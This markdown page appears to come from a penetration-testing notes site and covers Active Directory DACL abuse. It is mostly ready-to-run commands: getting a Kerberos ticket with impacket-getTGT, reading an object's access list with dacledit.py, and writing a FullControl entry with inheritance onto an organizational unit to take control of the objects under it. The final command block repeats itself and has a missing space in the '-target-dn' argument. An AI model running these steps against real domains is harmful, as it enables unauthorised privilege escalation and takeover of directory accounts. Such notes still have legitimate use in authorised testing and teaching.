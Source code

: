 ```yaml
---
title: DACL (Discretionary Access Control List) Attack
description: DACL is a list of the trustees that are allowed or denied access to objects in Active Directory.
tags:
    - Active Directory
    - Windows
refs:
    - https://www.thehacker.recipes/a-d/movement/dacl
    - https://learn.microsoft.com/en-us/windows/win32/secauthz/access-control-lists
date: 2023-10-22
draft: false
---
```


## Add Rights

We may be able to take a full control of securable objects by getting GenericAll permission on OU (Organizational Unit). 

### 1. Ask TGT for Kerberos Authentication

If we want to use Kerberos authentication for attacking DACL, we need to retrieve a TGT for specific user at first. In addition, to avoid authentication error, we need to synchronize the system time with the domain controller using `ntpdate` or `rdate`.

```bash
sudo ntpdate example.local
# or
sudo rdate -n example.local

impacket-getTGT -dc-ip dc.example.local example.local/username:password
```

The `getTGT` above dumps a `.ccache` file which stores TGT.

After dumping the `.ccache` file, set it to an environment variable for using the later processing.

```bash
export KRB5CCNAME=username.ccache
```

### 2. Read DACL

We can use `Impacket`'s  `dacledit` which has not yet been merged as of 2023/10/21.  

The repository is here: https://github.com/ShutdownRepo/impacket/tree/dacledit

```bash
dacledit.py -action read -target TestGroup -principal username -dc-ip 10.0.0.1 example.local/username:password
# -use-ldaps: Use LDAPS instead of LDAP
# -k: Use Kerberos authentication
dacledit.py -action read -target TestGroup -principal username -dc-ip 10.0.0.1 example.local/username:password -use-ldaps -k
```

### 3. Write DACL

```bash
dacledit.py -action write -rights 'FullControl' -principal username -target-dn'OU=SERVICE USERS,DC=EXAMPLE,DC=LOCAL' -inheritance -dc-ip dc.example.local example.local/username:password -use-ldaps -k
# -use-ldaps: Use LDAPS instead of LDAP
# -k: Use Kerberos authentication
dacledit.py -action write -rights 'FullControl' -principal username -target-dn'OU=SERVICE USERS,DC=EXAMPLE,DC=LOCAL' -inheritance -dc-ip dc.example.local example.local/username:password -use-ldaps -k
```
